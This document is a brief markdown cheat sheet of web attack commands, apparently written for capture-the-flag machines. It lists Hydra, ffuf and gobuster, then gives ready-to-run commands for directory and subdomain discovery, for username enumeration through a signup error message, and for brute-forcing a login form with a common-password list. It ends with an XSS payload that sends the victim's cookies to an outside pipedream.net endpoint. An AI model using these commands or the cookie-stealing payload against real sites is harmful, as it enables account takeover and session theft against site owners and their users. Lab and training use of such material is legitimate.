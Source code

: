 # WEB 

## TOOLS
- **[Hydra](https://www.kali.org/tools/hydra/)** : Logon cracker for many services
- **[ffuf](https://www.kali.org/tools/ffuf/)** : Web Fuzzer
- **[gobuster](https://www.kali.org/tools/gobuster/)** : Web Brute-force tools

## COMMANDS
**Discovery files/folders**
`gobuster dir -u http://MACHINE_IP/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt`

**Enumerate on subdomains**
`ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.DOMAIN" -u http://MACHINE_IP`

**Enumerate on users**
`ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/signup -mr "username already exists"`

**Bruteforce users**
`ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200`

**XSS Cookie Grabber**
`<script> document.write('<IMG SRC=https://en6g6pduwcwd1n.m.pipedream.net?cookie='+document.cookie+'/>')</script>`